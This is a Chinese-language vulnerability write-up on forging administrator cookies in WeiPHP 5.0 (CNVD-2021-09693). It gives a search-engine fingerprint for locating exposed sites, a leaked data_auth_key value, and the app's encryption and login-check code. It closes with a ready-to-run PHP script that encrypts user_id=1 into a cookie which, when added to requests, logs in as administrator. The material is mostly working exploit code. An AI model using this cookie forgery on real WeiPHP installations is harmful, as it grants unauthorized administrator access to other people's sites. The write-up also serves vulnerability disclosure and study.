



# WeiPHP5.0 任意用户Cookie伪造 CNVD-2021-09693

## 漏洞描述

Weiphp5.0 存在管理员用户Cookie伪造，通过泄露的密钥数据，可利用加密方法来得到管理员的Cookie

## 影响版本

<a-checkbox checked>Weiphp <= 5.0</a-checkbox></br>

## 环境搭建

[weiphp5.0官方下载参考手册](https://www.weiphp.cn/doc/Initialization_database.html)

参考官方手册创建网站即可


## 网络测绘

<a-checkbox checked>app="WeiPHP"</a-checkbox></br>


## 漏洞复现

首先需要得到数据库配置文件中的 `data_auth_key`密钥


得到这个配置文件可参照上一篇 `Weiphp5.0 前台文件任意读取`


```plain
'data_auth_key' => '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T'
```


全局查找下使用了这个密钥的地方





找到了跟据这个密钥的加密方法和解密方法


`加密方法 think_encrypt`


```php
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}
```


`解密方法 think_decrypt


```php
function think_decrypt($data, $key = '')
{
    $key = md5(empty($key) ? config('database.data_auth_key') : $key);
    $data = str_replace(array(
        '-',
        '_'
    ), array(
        '+',
        '/'
    ), $data);
    $mod4 = strlen($data) % 4;
    if ($mod4) {
        $data .= substr('====', $mod4);
    }
    $data = base64_decode($data);
    $expire = substr($data, 0, 10);
    $data = substr($data, 10);

    if ($expire > 0 && $expire < time()) {
        return '';
    }
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = $str = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    for ($i = 0; $i < $len; $i++) {
        if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
            $str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
        } else {
            $str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
        }
    }
    return base64_decode($str);
}
```


全局查看下使用了解密方法的地方


在文件 `application\common.php` 中含有使用解密方法的代码，用于做身份验证


```php
function is_login()
{
    $user = session('user_auth');
    if (empty($user)) {
        $cookie_uid = cookie('user_id');
        if (!empty($cookie_uid)) {
            $uid = think_decrypt($cookie_uid);
            $userinfo = getUserInfo($uid);
            D('common/User')->autoLogin($userinfo);

            $user = session('user_auth');
        }
    }
    if (empty($user)) {
        return 0;
    } else {
        return session('user_auth_sign') == data_auth_sign($user) ? $user['uid'] : 0;
    }
}
```


根据这里得到的代码，可以知道当`user_Id=1`时,会解密密钥后判断是否正确，如果正确则可以登录系统


我们在本地使用加密代码加密`user_id=1`得到的cookie则可以登录系统


```php
<?php
show_source(__FILE__);
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T';
    $key = md5($key);

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}

echo 'user_id = ' . think_encrypt($_GET['user_id']);
?>
```





添加`cookie: user_id=xxxxxxxx`即可成功登录





